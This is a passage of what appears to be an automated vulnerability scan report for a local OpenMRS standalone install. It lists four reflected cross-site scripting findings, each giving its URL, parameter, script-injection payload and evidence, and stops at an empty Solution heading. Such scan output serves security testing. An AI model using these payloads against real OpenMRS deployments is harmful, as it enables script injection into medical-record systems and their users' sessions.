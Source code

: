   
  * Evidence: `';alert(1);'`
  
  
  
  
* URL: [http://localhost:8081/openmrs-standalone/login.htm](http://localhost:8081/openmrs-standalone/login.htm)
  
  
  * Method: `POST`
  
  
  * Parameter: `sessionLocation`
  
  
  * Attack: `</pre><script>alert(1);</script><pre>`
  
  
  * Evidence: `</pre><script>alert(1);</script><pre>`
  
  
  
  
* URL: [http://localhost:8081/openmrs-standalone/referenceapplication/login.page;jsessionid=5038D26982756CDE5D33312187C191EB](http://localhost:8081/openmrs-standalone/referenceapplication/login.page;jsessionid=5038D26982756CDE5D33312187C191EB)
  
  
  * Method: `POST`
  
  
  * Parameter: `sessionLocation`
  
  
  * Attack: `</pre><script>alert(1);</script><pre>`
  
  
  * Evidence: `</pre><script>alert(1);</script><pre>`
  
  
  
  
* URL: [http://localhost:8081/openmrs-standalone/adminui/myaccount/changeDefaults.page?lang=%27%3Balert%281%29%3B%27](http://localhost:8081/openmrs-standalone/adminui/myaccount/changeDefaults.page?lang=%27%3Balert%281%29%3B%27)
  
  
  * Method: `GET`
  
  
  * Parameter: `lang`
  
  
  * Attack: `';alert(1);'`
  
  
  * Evidence: `';alert(1);'`
  
  
  
  
Instances: 4
  
### Solution